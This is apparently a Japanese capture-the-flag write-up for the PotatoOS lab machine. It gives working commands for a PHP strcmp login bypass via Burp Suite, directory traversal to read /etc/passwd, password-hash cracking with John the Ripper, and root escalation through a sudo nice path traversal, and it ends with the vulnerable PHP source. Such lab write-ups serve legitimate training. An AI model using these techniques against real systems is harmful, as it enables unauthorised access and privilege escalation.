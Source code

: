 ## 目的
- user.txtとroot.txtの中身を見る

## 準備
- PotatoOSの起動はヘッドレスモードでいい
## 実践 343~

### ポートスキャンまで同じ
- `sudo nmap -A -p- $IP`
  - -Aは-sV,-sC,-Oの３つのスクリプトを合わせたもの
  - 22,80,2112の3つのポートが空いているのがわかる
  - ポートの各サービスを調べる。ftpのファイルやユーザ名などわかる
    

### 2112ポートの攻略
  - ftpでファイルを取得
  - ftpコマンドはParrotOSにはデフォルトで入っていないので、一度ネットワークをNATにして、ftpコマンドをaptで得る。取得後はネットワークをローカルホストに戻す
  - `sudo apt update`, `sudo apt install ftp`
  - `ftp $IP ポート番号`
  - user:`anonymous`, password:` ` 入力後にプロンプトが返ってくる
  - lsコマンドでファイルがわかる
  - getコマンドでファイルを取得後にexitで抜ける
  - index.phpを見ると認証に欠陥があることがわかる 

### (補足)2112ポートの攻略
- dirコマンドでもわかる
- ファイルを一括で取得
- `mget *`


### fileコマンドで危険なファイルかもしれないので中身を確認
  - file ファイル名
  - ソースの認証部分を読むとパスワード書いてあることがわかる

### gobuster
- 通常には見えない隠しサイトを探してくる 
- `gobuster dir -u $URL -w /usr/share/wordlists/dirb/common.txt`
  - `dir`はつけないとエラーになる
  - `$IP`だとエラーになる
  - サイトを見つけたいのでディレクトリを探すので`-x`はいらない
- `/admin`という興味深いディレクトリがある 

### Webブラウザで確認
  - `192.168.56.101/admin`
  - 確認したら閉じる

### BurpSuiteで認証
- BurpSuitはプロキシサーバの役割を持ちhttpリクエストを書き換える効果がある
- htmlのソースを見ると、postメソッドが使われているので、BurpSuitを使って送信を書き換える
  - intercept is on にすると、パケットを送信せずに止めておくモードになる 
- ターミナルで`burpsuite`と入力、またはOSのMenuからBurpSuiteを起動
- 全部デフォルトでOK 
- proxy -> intercept is off -> open browser 
- ブラウザを起動した状態で192.168.56.101/adminでサイトに移動したら
- `intercept on` にする
- userを`admin`とpasswordを`test`と入力してlogin
- HTTPリクエストが表示されるので、一番下を `password[]=test`と書き直す
- 一番左のForwardボタンを押す
- 成功すると、Admin areaサイトに切り替わる
- `Intercept is off`にするとマウスで操作できる

### BurpSuiteでディレクトリリバーサル
- ディレクトリリバーサルとはリンクのパスで一度ルートに移ってから、目的のファイルにアクセスすること
- Logsに移動する
- `intercept is on`にする
- どれでもいいが、log_03.txtにボタン押して、Get the logを押す
- BurpSuiteがhttpリクエストをキャプチャする。`file=log_03.txt`これは、このディレクトリにある、log_03.txtファイルを読み込んでいると考えられる、これならディレクトリ トラバーサルができるかもしれない。
- `file=log_03.txt`を以下のように書き直す。これはリクエストを利用して、ディレクトリリバーサルをしている
  - `file=../../../../../etc/passwd`と書き直してForwardボタンを押す
- 表示をコピーする

### John the ripperで使うファイルを作る
- 新しいターミナルを開けて`cat > pass.txt` ここでペーストして、ctrl + d　で抜ける
- シェルの使えるユーザを探す。ファイルを見るとwebadminがシェルを使えて、パスワードのハッシュ値があるのでそれを解析する
- `cat pass.txt | grep -P 'sh$' | grep webadmin > hash.txt`

### John the ripper
  - OSのMenuからjohnを検索して起動する 
  - 本ではrockyou.txtを使っているが、ファイルは見つからないのでjohn.lstを使う
  - `sudo john hash.txt --wordlist=/usr/share/wordlists/john.lst`
    - `-w=/usr/~`でもOK
    - 過去に一度暗号を解読していると表示されないので以下のようにする
    - `sudo john hash.txt --show` 

### sshでリモートに接続
- `ssh webadmin@192.168.56.101`
- password `dragon`
- lsコマンドでuser.txtがあるので１つ目のflagを取得、ただし中身が変換されているので直す
- `cat user.txt | base64 -d`

### (おまけ)Linpeasを送って、実行してみる
- `sudo scp linpeas.sh webadmin@192.168.56.101:/tmp`
- `chmod +x linpeas.sh`
- `./linpeas.sh > /home/webadmin/linpeas.log`

### userのroot権限を調べる
- `sudo -l`
- niceコマンドが引数`/notes/*`ディレクトリにあるファイルは全てルート権限で実行できるので、このコマンドを使って/bin/bashを実行する。GTFOBinsにも書いてあるので調べる。
- `/notes`ディレクトリを調べる。２つのスクリプトがある、パーミッションを調べるが所有者がrootでrootでしか、読み書き、実行はできない。`sudo -l`でしか実行できないので当然だが、、、、、

### root権限の取得(その1)
- ルート権限での実行なので当然、頭にsudoをつける
- notesはルートディレクトリの直下にあるので、ディレクトリリバーサルを利用して/bin/bashを呼び出す
- `sudo /bin/nice /notes/../bin/bash` 

### root権限の取得(その2)
- その1とは、一度ファイルにbin/bashを書き込んでいるか否かの違いだけ
```sh
cd /tmp
echo "/bin/bash" > rootbash.sh
chmod +x rootbash.sh
sudo /bin/nice /notes/../tmp/rootbash.sh
```

### root権限
- `cd /root`
- `ls`
- `cat root.txt`　２つ目のflagを取得 

## (補足) curlでディレクトリトラバーサルをしてpasswdを見る
- `curl -X POST -b "pass=~" -d 'file=../../../../../etc/passwd' "http://192.168.56.101/admin/dashboard.php?.page=log"`
  - `-X` httpメソッドの指定
  - `-b` クッキーの指定
  - `-d` postリクエストのフォームを送信する

### login
```
POST /admin/index.php?login=1 HTTP/1.1
Host: 192.168.56.101
Content-Length: 28
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://192.168.56.101
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/123.0.6312.122 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.56.101/admin/
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Cookie: pass=serdesfsefhijosefjtfgyuhjiosefdfthgyjh
Connection: close

username=admin&password=test
```

```php
<?php

$pass= "potato"; //note Change this password regularly

if($_GET['login']==="1"){
  if (strcmp($_POST['username'], "admin") == 0  && strcmp($_POST['password'], $pass) == 0) {
    echo "Welcome! </br> Go to the <a href=\"dashboard.php\">dashboard</a>";
    setcookie('pass', $pass, time() + 365*24*3600);
  }else{
    echo "<p>Bad login/password! </br> Return to the <a href=\"index.php\">login page</a> <p>";
  }
  exit();
}

```
